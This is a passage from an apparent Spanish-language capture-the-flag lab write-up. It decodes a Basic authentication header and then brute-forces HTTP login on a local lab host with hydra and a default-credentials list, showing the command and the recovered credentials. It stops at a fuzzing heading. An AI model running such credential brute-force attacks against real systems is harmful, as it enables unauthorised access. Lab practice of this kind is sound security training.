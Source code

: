 Veremos que esta utilizando especificamente `Basic` codificado en `Base64` si lo decodificamos veremos esto:

```shell
echo 'YWRtaW46YWRtaW4=' | base64 -d
```

Info:

```
admin:admin
```

Veremos que ciertamente es lo que pusimos, por lo que ahora si vamos a probar a realizar fuerza bruta con `hydra`.

## Hydra

Despues de un rato, estaba claro que iba a tardar muchisimo en intentar encontrar credenciales con dos diccionarios diferentes con `hydra`, por ello me descargue en `SecList` un diccionario en la que vienen usuarios y passwords por defecto para probar con el parametro `-C` de `hydra`.

URL = [Download List Defaults Credentials](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt)

```shell
hydra -C ftp-betterdefaultpasslist.txt <IP> http-get / -t 64 -I -e nsr
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-12 03:35:11
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 264 login tries, ~5 tries per task
[DATA] attacking http-get://172.17.0.2:80/
[80][http-get] host: 172.17.0.2   login: httpadmin   password: fhttpadmin
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
The session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Con esto veremos que ha funcionado, por lo que vamos a probarlas en el `login` web a ver si nos deja.

```
User: httpadmin
Pass: fhttpadmin
```

Una vez logueados veremos la pagina de `apache2` normal, por lo que no veremos nada interesante, vamos a realizar un poco de `fuzzing` a ver que encontramos.

## Gobuster
